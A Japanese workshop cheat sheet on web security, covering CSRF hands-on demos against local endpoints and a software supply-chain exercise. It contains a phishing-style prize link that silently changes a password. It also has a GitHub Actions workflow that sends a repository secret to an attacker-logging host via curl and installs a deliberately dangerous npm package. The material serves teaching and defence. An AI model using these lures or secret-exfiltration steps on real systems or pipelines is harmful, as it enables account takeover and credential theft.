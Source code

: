# チートシート

## おおまかな流れ

1. ウェブセキュリティの概要
   1. ユーザーの資産の列挙
   2. 攻撃方法の列挙（そのためのフレームワーク）
   3. 主要な脆弱性の概説
2. CSRF の例
   1. CWE での説明
   2. 他のフレームワークでの位置づけ
   3. ハンズオン： GET の例
   4. ハンズオン: cookie の説明と GET ログインの例
   5. ハンズオン： POST の例
   6. ハンズオン： CSRF TOKEN
   7. ハンズオン： 同一オリジンポリシーの確認
   8. ハンズオン： SameSite Cookie
   9. ハンズオン： Custom Header
   10. アプリケーションフレームワークでの対策
   11. まとめ：ブラウザへの注目
3.  ソフトウェア・サプライチェーン
   1. ハンズオン：ソフトウェア・サプライチェーンに乗っかってみる
      1. HonKit
      2. Amazon S3
      3. GitHub Actions
   2. ハンズオン： GitHub Actions Secret の実験
   3. 手元での実験
   4. まとめ：対処の難しさ

## エンドポイント一覧
以下のリポジトリを clone してください
https://github.com/sasakiy84/csrf-demo

1. シナリオ１
  1. この記事について、より詳細に書かれた内容が >> [ここ](http://localhost:3000/1-get-board?text=%E7%A7%81%E3%81%AF%E5%91%BC%E5%A3%B0%E5%B8%82%E5%BD%B9%E6%89%80%E3%82%92%E7%88%86%E7%A0%B4%E3%81%97%E3%81%BE%E3%81%99) << にあります
  1. http://localhost:3000/1-get-board?text=%E7%A7%81%E3%81%AF%E5%91%BC%E5%A3%B0%E5%B8%82%E5%BD%B9%E6%89%80%E3%82%92%E7%88%86%E7%A0%B4%E3%81%97%E3%81%BE%E3%81%99
1. GET ログイン確認
   1. http://localhost:3000/2-get-confirm
2. GET ログイン
   1. http://localhost:3000/2-get-login?name=wowow&password=whooo!
3. GET パスワード変更
   1. http://localhost:3000/2-get-password-change?newPassword=yourNewPassword
4. シナリオ2
   1. おめでとうございます！抽選に当選しました！！以下のリンクから景品を選んでください！！！！ >> [当選品選択ページ](http://localhost:3000/2-get-password-change?newPassword=evilPassword) <<
5. POST パスワード変更
   1. http://localhost:3000/3-post-password-change-dangerous
6. POST パスワード変更 evil
   1. http://127.0.0.1:4000/3-post-password-change-dangerous
7. CSRF Token パスワード変更
   1. http://localhost:3000/3-post-password-change-csrf-token
8. CSRF Token パスワード変更 evil
   1. http://127.0.0.1:4000/3-post-password-change-csrf-token
9. 同一オリジンポリシー XHR
   1. http://localhost:3000/3-post-password-change-with-xml-http-request
10. 同一オリジンポリシー XHR evil
   1. http://127.0.0.1:4000/3-post-password-change-with-xml-http-request
11. 同一オリジンポリシー iframe
   1. http://localhost:3000/3-post-password-change-with-iframe
12. 同一オリジンポリシー iframe evil
   1. http://127.0.0.1:4000/3-post-password-change-with-iframe
13. samesite cookies のセット
   1. http://localhost:3000/5-samesite-attr
14. samesite cookies の確認
   1. http://localhost:3000/5-check-cookies
15. ヘッダーの確認
   1. http://localhost:3000/4-prepare-custom-header
16. 独自ヘッダーのクロスオリジンリクエスト
   1. http://127.0.0.1:4000/4-prepare-custom-header


samesite 確認用の POST フォーム

<div>
<form id="form" action="http://localhost:3000/5-check-cookies" method="post">
  <button type="submit">submit</buttion>
</form>
</div>

## CSRF 参考リンク
- [Rails の CSRF 対策](https://railsguides.jp/security.html#csrf%E3%81%B8%E3%81%AE%E5%AF%BE%E5%BF%9C%E7%AD%96)
- [Laravel の CSRF 対策](https://laravel.com/docs/11.x/csrf)
- [Express の CSRF 対策](https://github.com/expressjs/csurf)

## honkit
- https://honkit.netlify.app/

## GitHub Actions
```yml
# .github/workflows/deploy.yaml
name: CI

on:
  push:
    branches:
      - master
      - main
  workflow_dispatch:

permissions:
  contents: write

env:
  AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
  AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}

jobs:
  deploy:
    runs-on: ubuntu-22.04
    steps:
    - name: Checkout
      uses: actions/checkout@v4

    - name: Setup Node
      uses: actions/setup-node@v4
      with:
        node-version: '20'
    - name: Install dependencies
      run: npm install

    - name: Build Honkit
      run: npx honkit build
   
    - name: Upload to S3
      run: aws s3 sync --delete --region ap-northeast-1 ./_book s3://YOUR_PUBLISH_BUCKET
```

## GitHub secret 実験
自分の名前を `TEST_SECRET` という変数に入れておく

```yaml
# .github/workflows/secret-test.yaml
name: test 1
on:
  workflow_dispatch:

env:
  TEST_SECRET: ${{ secrets.TEST_SECRET }}

jobs:
  test1:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - run: echo $PWD
      - run: echo $TEST_SECRET
      - run: curl http://attacker-logging-endpoint.sasakiy84.net/aaa/$TEST_SECRET
      - run: npm i sasakiy84/dangerous-npm-repository-test
```

問題のリポジトリ
https://github.com/sasakiy84/dangerous-npm-repository-test/tree/main


以下のコマンドで、ローカルに依存関係を追加する。
```bash
npm i sasakiy84/dangerous-npm-repository-test
```

そして、`node_modules/dangerous-npm-repository-test`　の中身を見る

## ソフトウェア・サプライチェーンの参考リンク
1. codecov
  1. https://about.codecov.io/security-update/
2. codecov のメルカリの発表
  1. https://about.mercari.com/press/news/articles/20210521_incident_report/
3. npm の lifecycle script
  1. https://docs.npmjs.com/cli/v10/using-npm/scripts
4. 実際の npm のライフサイクルスクリプトを使った攻撃事例
  1. https://www.bleepingcomputer.com/news/security/researcher-hacks-over-35-tech-firms-in-novel-supply-chain-attack/
5. xz のバックドア
   1. https://boehs.org/node/everything-i-know-about-the-xz-backdoor
